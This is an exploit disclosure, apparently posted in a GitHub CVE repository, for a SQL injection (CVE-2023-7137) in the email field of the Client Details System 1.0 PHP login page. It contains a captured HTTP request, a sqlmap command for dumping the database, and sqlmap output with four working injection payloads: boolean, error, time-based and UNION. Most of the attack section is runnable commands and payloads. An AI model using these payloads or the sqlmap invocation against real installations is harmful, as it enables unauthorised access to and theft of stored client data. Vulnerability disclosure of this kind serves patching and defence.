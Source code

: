 # CVE-2023-7137_Client_Details_System-SQL_Injection_1
+ **Exploit Title:** CVE-2023-7137_Client_Details_System-SQL_Injection_1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CCVE-2023-7137

## References: 
+ **CVE-2023-7137:** https://vuldb.com/?id.249140
+ https://www.cve.org/CVERecord?id=CVE-2023-7137

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uemail' in "/clientdetails/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the User Login page: "http://localhost/clientdetails/"
+ Fill email and password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 317
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

uemail=user@mail.com&login=LOG+IN&password=P@ass123
```

+ Use sqlmap to exploit. In sqlmap, use 'uemail' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uemail --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uemail (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: uemail=user@mail.com' OR NOT 6660=6660-- FlRf&login=LOG IN&password=P@ass123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uemail=user@mail.com' AND (SELECT 6854 FROM(SELECT COUNT(*),CONCAT(0x717a717a71,(SELECT (ELT(6854=6854,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Oxlo&login=LOG IN&password=P@ass123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uemail=user@mail.com' AND (SELECT 5335 FROM (SELECT(SLEEP(5)))qsPA)-- pwtE&login=LOG IN&password=P@ass123

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: uemail=user@mail.com' UNION ALL SELECT NULL,CONCAT(0x717a717a71,0x45575259495444506f48756469467471555975554d6f794d77677a4f50547145735052567278434f,0x7176627871),NULL,NULL,NULL,NULL,NULL-- -&login=LOG IN&password=P@ass123
---
[14:58:11] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:58:11] [INFO] fetching current database
current database: 'loginsystem'
```

+ current database: `loginsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/bfbec122-5b56-42df-beda-41dfdcaf527a)
